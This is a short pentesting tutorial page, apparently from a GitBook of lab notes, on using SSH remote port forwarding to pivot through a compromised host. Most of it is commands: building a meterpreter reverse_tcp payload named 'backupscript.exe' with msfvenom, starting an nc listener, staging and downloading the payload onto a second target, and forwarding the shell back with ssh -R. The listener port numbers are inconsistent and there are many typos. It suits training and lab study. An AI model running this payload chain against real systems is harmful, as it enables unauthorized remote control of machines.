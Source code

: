 ```yaml
---
description: To forward a local service to the remote port
---
```


# Remote Port Forwording - SSH

## Introduction

<img src="../../.gitbook/assets/file.excalidraw.svg" alt="Basic diagram to explain below&#x27;s concept." class="gitbook-drawing">

In a scenario where we got the access to target `host1` and perform dynamic port forwarding to connect to RDP running on the `host2`, if we try to transfer files, use exploits, or even performing a reverse shell, these teqniques won't work since the `host2` doesn't know the attack host.

To performed the mentioned actions/exploit, we need a connection to a system that could communicate bot to us and the target host, which in our example would be `host1` .

**Creating a Windows Payload with msfvenom**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

**Starting the listener**

```bash
nc -lvnp 8080
```

After configureing the listener and creating the payload, we can move our payload to the food hold system using any mehtod of choice.

**Transferring Payload to Pivot Host**

```bash
scp backupscript.exe ubuntu@<PivotHostIP>:~/
```

**Starting Python3 Webserver on Foothold/Pivot Host**

```shell-session
python3 -m http.server 8123
```

**Downloading Payload at Target (host2)**

```powershell-session
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

We will use `SSH remote port forwarding` to forward our msfconsole's listener service on port 8000 to the Ubuntu server's (Foot hold host1) port 8080

```bash
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

* \-vN -> verbose and not prompt login shell.
* \-R -> Ask server to listen on \<ipAddressofTarget>:8080

